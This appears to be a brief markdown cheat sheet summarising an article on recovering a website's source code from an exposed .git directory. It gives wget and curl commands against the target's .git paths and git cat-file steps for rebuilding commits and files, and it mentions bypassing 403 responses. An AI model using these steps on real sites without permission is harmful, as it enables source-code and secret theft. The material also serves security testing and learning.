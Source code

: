 Article : https://medium.com/swlh/hacking-git-directories-e0e60fa79a36
# Hacking Git Directories
- if you get 403 try to bypass it
- If you get 200
### Reconstructing project source from .git directory
- if directory listing is enabled
```bash
wget -r project.com/.git
```

### If listing is not enabled
- The /config file is the Git configuration file for the project.
- The /HEAD file is a file that contains a reference to the current branch.
```bash
> cat .git/HEAD
ref: refs/heads/master
```

### Confirming that files are accessible
```bash
curl https://project.com/.git/config
```

### Other paths are stored in HEAD file
```bash
> cat .git/HEAD
ref: refs/heads/master
> cat .git/refs/heads/master
0a66452433322af3d319a377415a890c70bbd263
> git cat-file -t 0a66452433322af3d319a377415a890c70bbd263
commit
> git cat-file -p 0a66452433322af3d319a377415a890c70bbd263
tree 0a72e6850ef963c6aeee4121d38cf9de773865d8
```

```bash
https://project.com/.git/HEAD (to determine the HEAD)
https://project.com/.git/refs/heads/master (to find the object stored in that HEAD)
https://project.com/.git/objects/0a/72e6850ef963c6aeee4121d38cf9de773865d8 (to access the tree associated with the commit)
https://project.com/.git/objects/9a/3227dca45b3977423bb1296bbc312316c2aa0d (to download the source code stored in the README file)
```


